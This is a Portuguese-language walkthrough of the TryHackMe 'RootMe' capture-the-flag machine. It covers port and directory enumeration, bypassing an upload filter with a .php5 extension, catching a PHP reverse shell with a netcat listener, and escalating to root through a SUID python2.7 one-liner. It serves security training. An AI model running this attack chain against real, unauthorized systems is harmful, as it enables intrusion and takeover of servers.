



RootMe
Visão Geral
| Campo | Detalhe |
|---|---|
| Plataforma | TryHackMe |
| Dificuldade | Fácil |
| IP alvo | 10.66.160.163 |
| SO | Ubuntu 20.04 LTS |
| Vetor | File upload bypass → PHP reverse shell → SUID python2.7 |
O desafio RootMe simula uma máquina com serviços expostos na internet. A metodologia segue três etapas: Enumeração → Exploração → Escalada de Privilégios.
1. Reconhecimento
1.1 Port Scan
nmap -sC -sV 10.66.160.163
Starting Nmap 7.98 at 2026-04-02 18:47 -0300
Nmap scan report for 10.66.160.162
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open httpDuas portas abertas: SSH (22) e HTTP (80). A superfície de ataque da porta 80 é maior — foco na enumeração web.
1.2 Enumeração Web
Inspeção do código-fonte revela diretórios js e css:
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<link rel="stylesheet" href="css/home.css">
<script src="js/maquina_de_escrever.js"></script>1.3 Enumeração de Diretórios (Gobuster)
gobuster dir -u http://10.66.160.163 <FLAGS>
index.php (Status: 200) [Size: 616]
uploads (Status: 301) [Size: 316] [--> http://10.66.160.163/uploads/]
css (Status: 301) [Size: 312] [--> http://10.66.160.163/css/]
js (Status: 301) [Size: 311] [--> http://10.66.160.163/js/]
panel (Status: 301) [Size: 314] [--> http://10.66.160.163/panel/]Dois diretórios de interesse: /uploads (possibilidade de upload) e /panel.

2. Exploração
2.1 Upload de Arquivo — Filtro e Bypass
O diretório /panel expõe um formulário de upload. Tentativa com .php é bloqueada:

Bypass via extensão alternativa — referência: PayloadsAllTheThings. Renomeia-se o arquivo para .php5:

Upload bem-sucedido. O arquivo fica acessível em /uploads.
2.2 Reverse Shell
IP do atacante na interface VPN:
ip addr show dev tun0
inet 192.168.224.89/17 brd 192.168.255.255 scope global noprefixroute tun0Listener e acionamento do shell:
nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 10.66.160.163 33044
Linux ip-10-66-160-163 5.15.0-139-generic x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-dataAcesso como www-data.
3. Escalada de Privilégios
3.1 Binários SUID
find / -perm -4000 -type f 2>/dev/null
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python2.7
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswdpython2.7 com SUID — vetor identificado via GTFOBins.
3.2 Exploit via python2.7
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
rootConclusão
O RootMe demonstra a cadeia: enumeração de diretórios (Gobuster) → descoberta de upload sem validação adequada → bypass de filtro via extensão .php5 → PHP reverse shell como www-data → SUID python2.7 para escalar para root.
Referências
- LYON, Gordon. Nmap: The Network Mapper. Disponível em: https://nmap.org. Acesso em: abr. 2026.
- REEVES, OJ. Gobuster. GitHub. Disponível em: https://github.com/OJ/gobuster. Acesso em: abr. 2026.
- pentestmonkey. php-reverse-shell. GitHub. Disponível em: https://github.com/pentestmonkey/php-reverse-shell. Acesso em: abr. 2026.
- swisskyrepo. PayloadsAllTheThings. GitHub. Disponível em: https://github.com/swisskyrepo/PayloadsAllTheThings. Acesso em: abr. 2026.
- GTFOBINS CONTRIBUTORS. GTFOBins. Disponível em: https://gtfobins.github.io. Acesso em: abr. 2026.
- TryHackMe. RootMe. Disponível em: https://tryhackme.com/room/rrootme. Acesso em: abr. 2026.